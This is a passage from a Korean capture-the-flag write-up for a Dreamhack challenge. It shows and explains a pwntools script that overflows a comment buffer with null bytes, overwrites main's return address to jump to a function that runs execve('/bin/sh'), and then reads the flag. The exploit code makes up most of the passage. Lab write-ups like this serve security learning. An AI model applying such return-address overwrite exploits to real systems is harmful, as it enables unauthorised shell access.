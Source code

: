 ```bash
```

## [1-3]: pwntools 작성

나는 결과 지향적인 걸 좋아한다. 일단 바로 파이썬 코드부터 살펴보자

```python
from pwn import *

#program="./test"
host='host8.dreamhack.games'
port=10022 # 서버 주소 설정

#p=process(program)
p=remote(host,port)

win=0x401278 # 코드 영역에서 execve("/bin/sh")을 실행하는 주소

p.sendafter(b'what is your name??\n',b'Rootsquare') # 이름은 아무 것이나 해도 좋다.
p.sendlineafter(b'Your commnet : ',b'\x00'*56+p64(win)) # main 함수의 반환 주소를 덮는다.
for i in range(0,6,1): # 시스템 출력 읽기. 필요 없으므로 치운다.
    p.recvline()

p.sendline(b'cat flag') # 플래그를 읽는다.
flag=p.recvline().decode()
p.close()
print('Flag : '+flag)
```

하나하나 살펴보자

```python
#program="./test"
host='host8.dreamhack.games'
port=10022 # 서버 주소 설정

#p=process(program)
p=remote(host,port)
```

* 해당 문제의 드림핵 VM에 접속하는 코드

```python
win=0x401278 # 코드 영역에서 execve("/bin/sh")을 실행하는 주소
```

* 주석에도 나와있고 C언어 해석 부분에서 충분히 설명했다

```python
p.sendafter(b'what is your name??\n',b'Rootsquare') # 이름은 아무 것이나 해도 좋다.
p.sendlineafter(b'Your commnet : ',b'\x00'*56+p64(win)) # main 함수의 반환 주소를 덮는다.
```

* 여기서 이제 comment에 널문자를 넣어주는데, 일단 기본 comment 배열 값인 47개에 널문자를 넣어주고, 원래 return 0값의 주소값인 8바이트 만큼 더 널문자를 넣어줘야 comment가 strlen의 보안에 안 걸리면서 return 0;의 주소값에 그 다음으로 오는 ```execve("/bin/sh")```의 실행 주소값을 넣어줄 수 있다. 

